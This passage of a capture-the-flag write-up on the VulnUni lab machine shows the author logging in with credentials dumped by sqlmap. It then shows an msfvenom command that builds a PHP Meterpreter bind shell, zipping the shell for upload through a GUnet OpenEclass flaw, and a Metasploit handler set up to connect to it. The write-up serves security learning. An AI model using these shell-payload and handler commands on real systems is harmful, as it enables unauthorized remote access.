 Now that I obtained admin credentials from sqlmap, I logged into the application as the administrator. Once again, the http request was being resolved to vulnuni.local. To actually log into the application, I edited the raw request in burp-suite as shown below. After hitting send, I selected the Render” tab on the response, then right clicked and selected to open up in browser.


<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        <img class="img-fluid rounded z-depth-1" src="/assets/images/posts/2020-06-02-vulnuni-ctf-writeup/vulnuni7.png">
    </div>
</div>
<div class="caption">
    A burpsuite repeater session using the dumped credentials to log into the application as admin
</div>  

Next, I navigated over to the other exploit identified earlier in the exploit-db. This exploit titled “GUnet OpenEclass 1.7.3 E-learning platform – ‘month’ SQL Injection” enables authenticated admins to upload reverse php shell files. To exploit this vulnerability, I used msfvenom to create a php meterpreter bind shell on port 4448.  

```bash
root@kali$ msfvenom -p php/meterpreter/bind_tcp LHOST=192.168.8.130 LPORT=4448 R > bind-meterpreter.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1338 bytes
``` 

Before the exploit could be uploaded to the application, it needed to be zipped and compressed. Once zipped, I uploaded it to the vulnuni webserver.

```bash
root@kali$ zip bind-meterpreter bind-meterpreter.php 
  adding: bind-meterpreter.php (deflated 62%)
```  

<br/>
#### Target Infiltration  

With the exploit ready, I started a metasploit session and opened a multi/handler to connect to the bind shell.  

```bash
root@kali$ msfconsole

msf5 > use multi/handler
msf5 exploit(multi/handler) > set LHOST 192.168.8.130
LHOST => 192.168.8.130
msf5 exploit(multi/handler) > set RHOST 192.168.8.132
RHOST => 192.168.8.132
msf5 exploit(multi/handler) > set LPORT 4448
LPORT => 4448
msf5 exploit(multi/handler) > set payload php/meterpreter/bind_tcp
payload => php/meterpreter/bind_tcp
``` 
